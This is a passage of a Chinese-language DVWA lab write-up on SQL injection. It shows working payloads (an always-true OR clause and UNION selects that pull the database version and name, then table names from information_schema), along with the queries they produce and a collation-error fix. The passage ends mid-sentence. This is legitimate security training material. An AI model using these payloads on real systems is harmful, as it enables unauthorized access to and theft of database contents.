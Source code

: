 ```php
?> 
```

可以看到第六行是直接将用户输入的内容拼接进入sql查询语句的



最简单的测试:  成功地查到了所有用户的信息

```
1' or '1'='1
实际执行的查询语句:
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

<img src="/images/ctf-web-dvwa/image-20221003155219962.png" alt="image-20221003155219962" style="zoom:67%;" />



接下来进一步挖掘数据库的结构:

查询数据库版本和数据库名:

```
1' and '1'='2' union select version(),database() #
实际执行的查询语句:
SELECT first_name, last_name FROM users WHERE user_id ='1' and '1'='2' union select version(),database() #';
同样的,还可以使用user()来查询用户名等
```

![image-20221003160005175](/images/ctf-web-dvwa/image-20221003160005175.png)

从数据库自带的`information_schema.TABLES`表中查询数据库`dvwa`中的所有表的表名:

```
1' and '1'='2' union select group_concat(TABLE_NAME),2 from information_schema.TABLES where table_schema='dvwa'#
实际执行的查询语句:
SELECT first_name, last_name FROM users WHERE user_id ='1' and '1'='2' union select group_concat(TABLE_NAME),2 from information_schema.TABLES where table_schema='dvwa'#
```

这里执行时会报错: 这里是`UNION`联合查询的表之间字符集不统一造成的

```
Illegal mix of collations for operation 'UNION'
```

解决:

进入`dvwa`目录中的`mysql.php`:

<img src="/images/ctf-web-dvwa/image-20221003171702035.png" alt="image-20221003171702035" style="zoom:67%;" />

28行改为这样

<img src="/images/ctf-web-dvwa/image-20221003171739783.png" alt="image-20221003171739783" style="zoom:67%;" />

也就是在`$create_db`的赋值语句后面加上
